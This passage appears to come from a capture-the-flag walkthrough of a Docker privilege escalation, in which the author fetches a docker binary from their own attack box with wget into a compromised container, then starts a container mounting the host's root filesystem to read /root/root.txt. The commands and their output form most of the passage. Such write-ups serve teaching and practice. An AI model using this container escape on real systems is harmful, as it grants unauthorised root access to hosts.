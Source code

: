 ### docker Binary

After solving, I later learned I could have just skipped the API all together and used the `docker` binary. It’s not in the container, but there is a copy [here](https://master.dockerproject.org/linux/x86_64/docker). I’ll download it to my box, and then use a Python webserver to upload it to the container.

```

root@2d24bf61767c:~# wget 10.10.14.15/docker
--2020-09-03 02:01:06--  http://10.10.14.15/docker
Connecting to 10.10.14.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 53959101 (51M) [application/octet-stream]
Saving to: ‘docker’

docker              100%[===================>]  51.46M  10.4MB/s    in 5.0s    

2020-09-03 02:01:11 (10.3 MB/s) - ‘docker’ saved [53959101/53959101]

root@2d24bf61767c:~# chmod +x docker

```

Now I can run a container the same way I have in other Docker privescs:

```

root@2d24bf61767c:~# ./docker run -v /:/rootfs --rm -it sandbox sh
/ #

```

The arguments are:
- `-v /:rootfs` - map the hosts `/` to `/rootfs` in the container as a volume
- `--rm` - remove the container when it exits
- `-i` - interactive
- `-t` - allocate a pseudo-TTY
- `sandbox` - the name of the image to start
- `sh` - the command to run in the container

Once inside, I can find the file system just as before:

```

/ # cd rootfs/
/rootfs # ls
bin         home        lost+found  root        swap.img
boot        lib         media       run         sys
cdrom       lib32       mnt         sbin        tmp
dev         lib64       opt         snap        usr
etc         libx32      proc        srv         var
/rootfs # cd root/
/rootfs/root # ls
root.txt  snap

```
